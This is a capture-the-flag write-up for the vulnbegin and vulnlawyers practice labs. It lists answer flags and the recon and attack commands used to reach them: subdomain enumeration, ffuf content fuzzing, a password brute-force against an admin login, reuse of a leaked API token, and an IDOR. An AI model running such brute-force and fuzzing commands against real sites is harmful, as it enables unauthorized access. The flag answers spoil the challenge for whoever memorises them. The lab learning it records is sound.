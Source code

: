 # ctfchallenge_co_uk


# target: vulnerable website for ctf(ctfchallenge.co.uk)

## easy | vulnbegin | 9 flags

### cookie used during automation: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9


### 4-flag : 
robots.txt --> http://www.vulnbegin.co.uk/secret_d1rect0y/ -->
```[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]```

tools used and documentation:
#### nslookup -type=any vulnbegin.co.uk 8.8.8.8
The above command will query the DNS server for any default A,TXT,NS,SOA,SPF records. You will see from the results there is a TXT record with a flag.

### 1-flag: ```[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]```

sublist3r -d vulnbegin.co.uk

The above query uses OSINT to discover domain names from various search engines and other data resources, from the result you will find an obscure subdomain if you visit it this will show you a flag

result:
server.vulnbegin.co.uk

v64hss83.vulnbegin.co.uk

### 3-flag 
```[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]``` on server.vulnbegin.co.uk
 
 ### 2-flag from sublister : ```[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]```


dnsrecon for finding subdomains using brute force
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt


content discovery using ffuf:
ffuf -p 0.1 -t 1 -w ~/wordlists/content.txt -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -u http://www.vulnbegin.co.uk/FUZZ


in this case username was admin but the response code is 200 for both valid and invalid requests:
to filter out 200 requets i used command:


ffuf -p 0.1 -t 1 -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200





### 5-flag 	```[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]```





### 6-flag from brute forcing the directry or it can be achieved using ffuf
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"```[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}```


### 7-flag from adding X-Token we got from cpanel/env 
{"messaged":"User Authenticated","flag":```"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"```}


### 8-flag 
"flag":```"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]"```,

### 9-flag after indirect object reference for user 5 
```[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]```


# vulnlawyers | easy | target:vulnlawyers.co.uk

#### cookie used during fuzzing ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9

subdomain from sublister:
www.vulnlawyers.co.uk
data.vulnlawyers.co.uk
### flag-1
```[^FLAG^E78DEBBFDFBEAFF1336B599B0724A530^FLAG^]```



### flag-2  in the redirect 302 request when login --> denied
where response look like
```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 05 Jul 2021 18:09:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9; expires=Wed, 04-Aug-2021 18:09:09 GMT; Max-Age=2592000; path=/; domain=.vulnlawyers.co.uk
Location: /denied
Content-Length: 1119

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>VulnLawyers - Old Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
    <link href="/template-manager/style.css" rel="stylesheet">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <h1 style="padding-top:100px;text-align: center;color: #060505;letter-spacing: -1px;font-weight: bold">VulnLawyers</h1>
            <h3 class="text-center">We'll win that case!</h3>
        </div>
    </div>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-info">
                <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
            </div>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```

```[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]```

hint from flag-2 : /lawyers-only 

## flag-3 from data.vulnlawyers.co.uk/users after fuzzing
```
{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk"}],"flag":"[^FLAG^25032EB0D322F7330182507FBAA1A55F^FLAG^]"}
```

